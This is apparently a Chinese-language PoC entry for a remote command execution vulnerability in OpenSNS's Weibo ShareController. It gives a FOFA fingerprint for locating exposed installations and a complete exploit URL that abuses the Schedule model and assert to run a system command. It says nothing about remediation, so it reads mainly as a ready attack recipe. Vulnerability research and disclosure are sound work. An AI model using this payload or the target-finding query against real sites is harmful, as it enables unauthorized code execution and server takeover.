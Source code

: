 # OpenSNS Application ShareController.class.php 远程命令执行漏洞

## 漏洞描述

OpenSNS 存在远程命令执行漏洞，攻击者通过漏洞发送特定的请求包可以执行任意命令

## 漏洞影响

```
OpenSNS
```

## FOFA

```
icon_hash="1167011145"
```

## 漏洞复现

登录页面如下

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202170923817.png)

存在漏洞的文件 `Application/Weibo/Controller/ShareController.class.php`

![image-20220518154015894](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205181540972.png)

发送Payload

```plain
/index.php?s=weibo/Share/shareBox&query=app=Common%26model=Schedule%26method=runSchedule%26id[status]=1%26id[method]=Schedule-%3E_validationFieldItem%26id[4]=function%26[6][]=%26id[0]=cmd%26id[1]=assert%26id[args]=cmd=system(ver)
```

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202170923310.png)